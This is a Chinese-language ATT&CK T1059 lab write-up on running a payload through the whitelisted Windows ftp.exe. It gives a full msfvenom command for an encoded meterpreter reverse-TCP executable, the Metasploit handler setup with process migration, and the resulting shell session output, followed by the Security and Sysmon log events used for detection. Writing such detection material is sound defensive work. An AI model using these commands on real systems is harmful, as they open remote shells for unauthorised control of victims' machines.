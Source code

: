 # T1059-Win-使用Ftp.exe执行Payload（白名单）

## 来自ATT&CK的描述

命令行界面是与计算机系统交互的一种方式，并且是很多操作系统平台的常见特性。例如，Windows系统上的命令行界面cmd可用于执行许多任务，包括执行其他软件。命令行界面可在本地交互或者通过远程桌面应用、反向shell会话等远程交互。执行的命令以命令行界面进程的当前权限级别运行，除非该命令需要调用进程来更改权限上下文（例如，定时任务）。

攻击者可能会使用命令行界面与系统交互并在操作过程中执行其他软件。

## 测试案例

Ftp.exe是Windows本身自带的一个程序，属于微软FTP工具，提供基本的FTP访问。

说明：Ftp.exe所在路径已被系统添加PATH环境变量中，因此，Ftp.exe命令可识别。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

Windows 2003 默认位置：
C:\Windows\System32\ftp.exe

C:\Windows\SysWOW64\ftp.exe

Windows 7 默认位置：

C:\Windows\System32\ftp.exe

C:\Windows\SysWOW64\ftp.exe

## 检测日志

Windows 安全日志/sysmon日志（需要自行安装）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 攻击分析

#### 生成payload.exe

```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=53 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o payload.exe
```

#### 执行监听

攻击机,注意配置set AutoRunScript migrate f (AutoRunScript是msf中一个强大的自动化的后渗透工具，这里migrate参数是迁移木马到其他进程)

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 53
lport => 53
msf5 exploit(multi/handler) > set AutoRunScript migrate -f
AutoRunScript => migrate -f
msf5 exploit(multi/handler) > exploit
```

#### 执行payload

```cmd
ftp>!C:\Users\12306Br0\Desktop\a\payload.exe
```

#### 反弹shell

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:53
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 1 opened (192.168.126.146:53 -> 192.168.126.149:49219) at 2020-04-18 20:08:18 +0800
[*] Session ID 1 (192.168.126.146:53 -> 192.168.126.149:49219) processing AutoRunScript 'migrate -f'
[!] Meterpreter scripts are deprecated. Try post/windows/manage/migrate.
[!] Example: run post/windows/manage/migrate OPTION=value [...]
[*] Current server process: payload.exe (2324)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 2888
[+] Successfully migrated to process

meterpreter > getuid
Server username: 12306Br0-PC\12306Br0

```

## 测试留痕

```log
EventID:4688 #安全日志，windows server 2012以上配置审核策略，可对命令参数进行记录
进程信息:
新进程 ID: 0x474
新进程名: C:\Windows\System32\cmd.exe

EventID:4688
进程信息:
新进程 ID: 0x3f8
新进程名: C:\Users\12306Br0\Desktop\a\payload.exe

EventID:5156
应用程序信息:
进程 ID: 1016
应用程序名称: \device\harddiskvolume2\users\12306br0\desktop\a\payload.exe

网络信息:
方向: 出站
源地址: 192.168.126.149
源端口: 49221
目标地址: 192.168.126.146
目标端口: 53
协议: 6

EventID:1 #sysmon日志
Image: C:\Windows\System32\cmd.exe
FileVersion: 6.1.7601.17514 (win7sp1_rtm.101119-1850)
Description: Windows Command Processor
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: Cmd.Exe
CommandLine: C:\Windows\system32\cmd.exe /C C:\Users\12306Br0\Desktop\a\payload.exe
CurrentDirectory: C:\Windows\system32\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-e7a1-5e9a-0000-0020ac500500}
LogonId: 0x550ac
TerminalSessionId: 1
IntegrityLevel: High
Hashes: SHA1=0F3C4FF28F354AEDE202D54E9D1C5529A3BF87D8
ParentProcessGuid: {bb1f7c32-ed99-5e9a-0000-00105addaf00}
ParentProcessId: 1112
ParentImage: C:\Windows\System32\ftp.exe
ParentCommandLine: ftp
```

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略Sysmon。

## 参考推荐

MITRE-ATT&CK-T1059

<https://attack.mitre.org/techniques/T1059/>

基于白名单Ftp.exe执行Payload

<https://www.77169.net/html/235306.html>

基于白名单的Payload

s<https://blog.csdn.net/weixin_30790841/article/details/101848854>
